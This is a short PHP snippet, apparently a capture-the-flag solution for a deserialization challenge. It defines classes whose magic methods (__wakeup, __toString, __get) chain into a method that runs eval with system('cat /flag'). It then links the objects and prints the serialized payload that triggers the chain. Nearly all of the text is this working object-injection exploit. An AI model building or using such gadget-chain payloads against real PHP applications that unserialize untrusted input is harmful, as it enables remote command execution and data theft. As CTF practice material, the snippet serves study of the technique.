 ```php
<?php
highlight_file(__FILE__);
error_reporting(0);

class re{
    public $chu0;
    public function __toString(){
        if(!isset($this->chu0)){
            return "I can not believes!";
        }
        $this->chu0->$nononono;
    }
}

class web {
    public $kw;
    public $dt;

    public function __wakeup() {
        echo "lalalla".$this->kw;
    }

    public function __destruct() {
        echo "ALL Done!";
    }
}

class pwn {
    public $dusk;
    public $over;

    public function __get($name) {
        if($this->dusk != "gods"){
            echo "什么，你竟敢不认可?";
        }
        $this->over->getflag();
    }
}

class Misc {
    public $nothing;
    public $flag;

    public function getflag() {
        eval("system('cat /flag');");
    }
}

$a = new re();
$b = new web();
$c = new pwn();
$d = new misc();

$c->over = $d;
$a->chu0 = $c;
$b->kw = $a;
echo "ser=".serialize($b);
```
